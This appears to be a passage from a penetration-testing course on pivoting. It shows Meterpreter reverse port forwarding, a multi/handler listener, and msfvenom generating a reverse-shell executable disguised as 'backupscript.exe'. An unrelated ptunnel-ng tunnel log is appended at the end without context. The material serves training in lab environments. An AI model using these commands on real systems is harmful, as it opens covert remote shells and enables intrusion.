 * * *

## Meterpreter Reverse Port Forwarding

Similar to local port forwards, Metasploit can also perform `reverse port forwarding` with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host. We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234` to our listener on port `8081`.

We can create a reverse port forward on our existing shell from the previous scenario using the below command. This command forwards all connections on port `1234` running on the Ubuntu server to our attack host on local port ( `-l`) `8081`. We will also configure our listener to listen on port 8081 for a Windows shell.

#### Reverse Port Forwarding Rules

```shell
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234

```

#### Configuring & Starting multi/handler

```shell
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081

```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`: `1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`: `8081` that we configured.

#### Generating the Windows Payload

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe

```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%